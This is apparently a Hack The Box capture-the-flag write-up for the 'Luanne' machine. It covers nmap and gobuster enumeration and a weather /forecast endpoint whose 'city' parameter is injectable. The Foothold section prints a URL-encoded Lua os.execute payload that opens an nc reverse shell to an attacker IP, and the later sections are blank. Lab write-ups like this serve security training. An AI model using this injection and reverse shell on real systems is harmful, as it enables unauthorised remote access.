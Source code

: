 ![](assets/images/banner.png)



<img src="assets/images/htb.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Luanne</font>

​		17<sup>th</sup> Januray 2021

​		Machine Author(s): polarbearer

​		

 



### Description:

Luanne is an easy-level machine. 

### Difficulty:

`easy`

### Flags:

User: `<md5>`

Root: `<md5>`

# Enumeration


1) So first of all I perfomed an nmap scan on the machine which gave me the following results.

![](assets/images/Luanne_nmap.png)


2) We can see that its got an nginx server on port 80 which requires authentication (you can make out from the status code 401).

3) Robots.txt tells us we have a directory named weather. When we go to the route http://10.10.10.218/weather, we get a 404 not found error.

![](assets/images/Luanne_weather.png)


4) Hereafter I thought of performing a directory scan via gobuster to check if there are any other directories present. I found this...

![](assets/images/Luanne1.png)

5) After I went over to /forecast, I found a JSON message which said the following...

![](assets/images/Luanne_forecast.png)

city=list?..I guess it must be a parameter that is being passed to the URL

what if we pass a reverse shell instead of list to the variable city?...worth a shot..


# Foothold

So I found a reverse shell and I url encoded it.

![](assets/images/Luanne_shell.png)



![](assets/images/Luanne_urlencode.png)




?city=10.10.10.218%2Fweather%2Fforecast%3Fcity%3D')%3Bos.execute("rm %2Ftmp%2Ff%3Bmkfifo %2Ftmp%2Ff%3Bcat %2Ftmp%2Ff|%2Fbin%2Fsh -i 2>%261|nc 10.10.14.136 4242 >%2Ftmp%2Ff")--


# Lateral Movement



# Privilege Escalation

